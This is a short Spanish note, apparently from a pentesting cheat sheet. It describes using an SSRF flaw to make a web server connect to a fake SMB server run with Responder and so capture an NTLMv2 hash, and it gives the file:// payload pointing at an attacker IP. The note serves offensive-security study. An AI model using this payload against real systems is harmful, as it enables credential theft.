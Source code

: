 Si tuvieramos una web que nos permite una SSRF podríamos robar un hash ntlmv2 redireccionando a un SMB falso

abrimos responder

Enviamos esto en la SSRF

    file://192.168.45.232\test
